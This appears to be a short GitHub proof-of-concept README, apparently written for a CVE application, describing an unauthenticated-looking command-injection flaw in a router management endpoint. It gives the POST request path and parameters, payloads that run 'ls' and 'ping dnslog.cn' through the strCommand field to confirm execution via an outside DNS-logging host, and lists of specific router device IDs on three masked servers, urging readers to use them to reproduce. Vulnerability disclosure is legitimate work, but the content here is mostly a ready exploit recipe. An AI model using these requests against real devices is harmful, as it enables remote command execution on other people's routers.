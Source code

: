 

# CVE-Poc-1



 

##  Readme

   Only for the CVE application--by Zjackky



​                         

## Vulnerability description



Interface address     /Device/Config/ExeclUserDefine  



Interface parameter  groupId=&deviceCode=02180011&strCommand=ls&type=1



Request mode POST



Parameter analysis DeviceCode (Router device ID) StrCommand (Code to execute) 



### Start the demonstration

Tips: Hello, here I provide the device ID so that you can reproduce it quickly. Some devices are not online, so please use the ID I gave when you reproduce them. I have tested and reviewed them hard



Case 1 : http://xxxxx:8xxxx 

Router device ID:

02180102

02180011

02180021

02180027

02180142

02180168

02180170

02190007

02190091



1. Use Postman to send packets
2. POST http://xxxxx:xxxxx /Device/Config/ExeclUserDefine 
3. Params   groupId=&deviceCode=02180102&strCommand=ping dnslog.cn &type=1
4. The outgoing command is dnslog. After the command is executed, you can receive dnslog messages
5. After executing the command, you can receive a dnslog message, which means that the command can be successfully executed



![image-20230530141315701](C:\Users\Zachariah.Jack\Desktop\tmp_wp_picture\image-20230530141315701.png)





Case 2：http://xxxxx0:xxxxxx1

Router device ID:

20010010

2106260520002 

2107042520002

2106260120002

2107042320002

 Just do the same thing as in case 1

 

Case 3： http://xxxxx:xxxxxx/

Router device ID:

10031

10072

10004

20031

20072

10001

  Just do the same thing as in case 1



 

